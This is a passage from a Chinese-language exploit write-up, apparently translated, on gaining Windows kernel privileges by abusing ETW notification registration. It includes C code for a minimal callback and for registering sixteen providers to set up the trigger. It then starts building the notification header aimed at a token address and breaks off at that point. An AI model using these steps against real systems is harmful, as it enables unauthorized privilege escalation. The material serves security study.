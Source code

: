 除了DestinationGuid，我们已经讲过很多了，其他字段我们不感兴趣，也不在代码路径中使用，所以我们可以把它们设为0。



## 构建exploit

现在我们有了所有的东西，我们需要尝试触发我们的exploit，并获得所有的新特权!

### <a class="reference-link" name="%E6%B3%A8%E5%86%8C%E6%8F%90%E4%BE%9B%E8%80%85%EF%BC%88Registering%20Providers%EF%BC%89"></a>注册提供者（Registering Providers）

首先，我们将注册我们的0x10，这很简单，这里没有太多要解释的。为了成功注册，我们需要创建一个回调。它将在提供者收到通知时被调用，并可以对通知进行回复。我选择在这个回调中不做任何事情，但它是机制中一个有趣的部分，可以用来做一些有趣的事情，比如使用它作为一种注入技术。

这篇文章已经足够长了，所以我们将只定义一个最小的回调函数，它什么也不做:

```
ULONG
EtwNotificationCallback (
    _In_ ETW_NOTIFICATION_HEADER* NotificationHeader,
    _In_ PVOID Context
    )
`{`
    return 1;
`}`
```

然后用我们选择的GUID注册我们的0x10提供者:

```
REGHANDLE regHandle;
for (int i = 0; i &lt; 0x10; i++)
`{`
    result = EtwNotificationRegister(&amp;EXPLOIT_GUID,
                                     EtwNotificationTypeCredentialUI,
                                     EtwNotificationCallback,
                                     NULL,
                                     &amp;regHandle);
    if (!SUCCEEDED(result))
    `{`
        printf("Failed registering new provider\n");
        return 0;
    `}`
`}`
```

我重用同一个句柄，因为我不打算关闭这些句柄——关闭它们将释放使用的slots，我们已经确定这将导致系统崩溃。

### <a class="reference-link" name="Notification%20Header"></a>Notification Header

完成所有这些工作之后，我们终于有了我们的提供者和所需的所有通知（notification）字段，我们可以构建通知头部（Notification Header）并触发exploit！之前，我解释了如何获取token的地址，并且它仅涉及大量代码，因此在此不再陈述，我们假设获取token成功并且我们有其地址。

首先，我们计算要增加的2个地址：
